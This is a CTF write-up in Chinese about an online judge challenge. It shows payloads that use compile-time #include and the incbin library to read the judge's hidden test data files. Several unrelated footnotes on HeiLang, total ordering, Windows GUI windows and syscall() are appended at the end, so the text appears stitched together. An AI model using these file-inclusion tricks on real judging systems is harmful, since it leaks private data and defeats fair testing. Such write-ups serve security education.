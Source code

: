 直接在浏览器页面打开题目，确实是一个 OJ 平台，可以在上边写程序，只是界面真的很丑。

题目给了脚本，审计，发现flag需要AC才能拿到。但是AC需要过数据的检测，如何过数据的检测呢？

没办法，看WP吧。WP提到这道题是考察**编译期未加权限限制导致的数据泄露**。然后再看看题目给的提示脚本，可以知道测试的时候是有两种类型的数据在参与运行的，分别是位于 ./data/static.out 的静态数据以及位于 ./data/dynamic{i}.in/out 的动态数据。

#### 无法AC的题目

static.in存入的是 user 输入的代码数据，输入完成后会进行路径检查，此时会报告路径相关错误。看源码我们能知道ans在读取static.out数据的时候进行了取中间（strip操作）和分割行（split操作），那static.out里边应该是一行行的字符串这样的东西。读取看看。

payload如下：

```
#include "../data/static.out"

int a =
#include "../data/static.out"

以及读第三行的payload：
int a =

#include "../data/static.out"



注：
#include "" 不属于标准库的头文件，编译器去项目的文件目录查找头文件。
```

这里发现读到第三行的时候还是第二行的数据，以及题目的换行暗示也提醒了这个文件里边包含的字符串行数很少。

行吧，看看读取出来的字符，是两组数字。合理猜测是AC所需要的数组。写相应程序执行即可。

#### 动态数据

这一小题的动态数据是在每一次编译前生成的，这意味着我们需要一次提交来获得所有动态数据。那么之前过静态数据的方法就不太好用了。看题解，题解说明可以在编译器将二进制文件弄成const char 或者 string 格式输出。在汇编中有一个指令可以包含相应文件，就是INCBIN指令，该指令可以以不进行汇编的形式把源文件包含进入汇编代码中。以这个思路，然后我们再把包含在汇编代码中的源文件输出即可。

但官方并没有相关函数可以做类似操作，出题人是用了Github上incbin项目的代码。说实话有点为了出题而出题了。

参考paylod：

```
#include "incbin.h"

#define PATH_PREFIX "./data/dynamic"
#define inc_in(i) INCTXT(in##i, PATH_PREFIX #i ".in")
#define inc_out(i) INCTXT(out##i, PATH_PREFIX #i ".out")

inc_in(0);
inc_in(1);
inc_in(2);
inc_in(3);
inc_in(4);#先把paylaod包含进入文件中
inc_out(0);
inc_out(1);
inc_out(2);
inc_out(3);
inc_out(4);#输出

const char *in[5] = {gin0Data, gin1Data, gin2Data, gin3Data, gin4Data};
const char *out[5] = {gout0Data, gout1Data, gout2Data, gout3Data, gout4Data};

```


[^]: 来自 Heicore 社区的新一代编程语言 HeiLang，基于第三代大蟒蛇语言，但是抛弃了原有的难以理解的 `|` 运算，升级为了更加先进的语法，用 `A[x | y | z] = t` 来表示之前复杂的 `A[x] = t; A[y] = t; A[z] = t`。作为一个编程爱好者，我觉得实在是太酷了，很符合我对未来编程语言的想象，科技并带着趣味。
[^全序关系]: 1、非自反性：对于任意 `a`，均有 `a < a` 不成立。2、传递性：对于任意 `a`、`b`、和 `c`，均有 `a < b` 且 `b < c` 蕴含 `a < c` 成立。3、完全性：对于任意 `a` 和 `b`，均有 `a ≠ b` 蕴含 `a < b` 或 `b < a` 成立。
[^]: 在 Windows 操作系统中，**窗口（Window）**的定义是抽象的。对于一个 Windows 下的 GUI 程序来说，不仅仅只有那个大大的对话框是窗口，对话框中的一个按钮，一段文本，一个输入框，都算作是一个窗口。每个 Windows 下的 GUI 程序都至少会创建一个窗口，它充当用户与应用程序之间的主接口，称为**主窗口**。
[^]: 窗口有这样一些特性：每个窗口都由一个被称为**窗口句柄（Window Handle）**的整数唯一标识每个窗口都有一个**窗口过程（Window Procedure）**，它是一个回调函数，在窗口接收到消息时，这个回调函数就会被调用。
[^]: Windows 下的 GUI 程序是**事件驱动**的。在 Windows 下，用户敲击键盘、移动鼠标、点击鼠标按钮、改变窗口尺寸，这些操作都算作是一个**事件（Event）**。当有事件发生的时候，Windows 就会生成一条消息，将其放入相应应用的**消息队列**中。每个 GUI 程序都必须负责处理自己的消息队列，处理消息队列的逻辑被称为**消息循环（Message Loop）**
[^注]: syscall() 执行一个系统调用，根据指定的参数number和所有系统调用的汇编语言接口来确定调用哪个系统调用